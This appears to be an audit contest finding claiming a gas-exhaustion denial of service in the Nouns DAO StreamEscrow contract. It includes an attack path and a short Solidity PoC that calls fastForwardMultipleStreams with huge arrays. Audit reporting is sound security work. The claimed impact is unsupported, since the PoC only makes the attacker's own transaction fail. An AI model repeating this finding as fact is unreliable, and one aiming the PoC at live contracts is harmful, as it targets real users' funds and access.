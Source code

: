 Flat Tartan Mantis

Medium

# vah - Gas Exhaustion Vulnerability in StreamEscrow Contract

### Summary

A vulnerability exists in the `StreamEscrow` contract, specifically in the `cancelStreams` and `fastForwardMultipleStreams` functions, where unbounded processing of input arrays can lead to gas exhaustion. This can result in denial of service (DoS) for users attempting to interact with the contract.



### Root Cause

Contract: https://github.com/sherlock-audit/2024-11-nounsdao/blob/main/nouns-monorepo/packages/nouns-contracts/contracts/StreamEscrow.sol#L231

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Deploy Malicious Contract
The attacker deploys a contract (GasExhaustionAttack) that creates large arrays and attempts to call the vulnerable functions.

2. Generate Large Arrays
The attacker creates arrays of arbitrary length using the malicious contract.

3. Call Vulnerable Function
The attacker calls fastForwardMultipleStreams with the large arrays, causing the transaction to consume excessive gas and fail.

### Impact

Denial of Service (DoS): The contract becomes unusable for legitimate users during an attack.


### PoC

```solidity
pragma solidity ^0.8.19;

contract GasExhaustionAttack {
    StreamEscrow public target;
    constructor(address _target) {
        target = StreamEscrow(_target);
    }
    function attack(uint256 largeNumber) external {
        uint256[] memory nounIds = new uint256[](largeNumber);
        uint32[] memory ticks = new uint32[](largeNumber);
        for(uint256 i = 0; i < largeNumber; i++) {
            nounIds[i] = i + 1;
            ticks[i] = 1;
        }
        target.fastForwardMultipleStreams(nounIds, ticks);
    }
}
```

### Mitigation

_No response_